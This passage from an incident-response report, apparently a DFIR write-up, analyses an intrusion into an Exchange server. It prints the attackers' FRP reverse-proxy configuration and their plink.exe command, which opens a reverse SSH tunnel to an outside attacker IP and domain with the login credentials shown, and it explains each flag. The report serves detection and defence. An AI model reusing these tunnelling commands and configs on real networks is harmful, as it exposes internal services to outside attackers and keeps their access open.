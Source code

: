 
Below is a screenshot of dllhost.exe hash lookup in VirusTotal, matching Florian Roth’s Yara rule HKTL\_PUA\_FRP\_FastReverseProxy\_Oct21\_1:  

[![Hash](https://thedfirreport.com/wp-content/uploads/2021/11/88e1bbfafc42458aa8a27efeb95530d5282ceb0af2170db607d20bbf63484b7b.png "enter image title here")](https://thedfirreport.com/wp-content/uploads/2021/11/88e1bbfafc42458aa8a27efeb95530d5282ceb0af2170db607d20bbf63484b7b.png)


The C:\ProgramData\Microsoft\Windows\Runtime\RuntimeBroker file is linked to the execution above, and contained the following lines of code which are a configuration file for FRP:



```
[common]
log\_level = trace
login\_fail\_exit = true

[RedactedHOSTNAME.RedactedDOMAIN\_RedactedIP]
type = tcp
remote\_port = 10151
plugin = http\_proxy
use\_encryption = true
use\_compression = true
```

The above configuration creates a http proxy bound to port 10151/tcp using encryption and compression.


The threat actors also dropped and executed plink.exe, creating a remote SSH tunnel to 148.251.71[.]182 (tcp[.]symantecserver[.]co) in order to reach the RDP port on the Exchange system over the internet:



```
"powershell.exe" /c echo y | plink.exe -N -T -R 0.0.0.0:1251:127.0.0.1:3389 148.251.71.182 -P 22 -l forward -pw Socks@123 -no-antispoof
```

[![Plink](https://thedfirreport.com/wp-content/uploads/2021/11/06cd805e9bdccced882075d49cfc8e6a51282897d54961934769e47c7515e417.png "enter image title here")](https://thedfirreport.com/wp-content/uploads/2021/11/06cd805e9bdccced882075d49cfc8e6a51282897d54961934769e47c7515e417.png)


In the command line above you can see several options being used:



```
-N : To avoid starting the shell
-T : To avoid the allocation of a pseudo-terminal
-R : Forward remote port to local address
-P 22 : Port number
-l forward : Login name
-pw Socks@123 : Login password
-no-antispoof : To omit anti-spoofing prompt after authentication
```
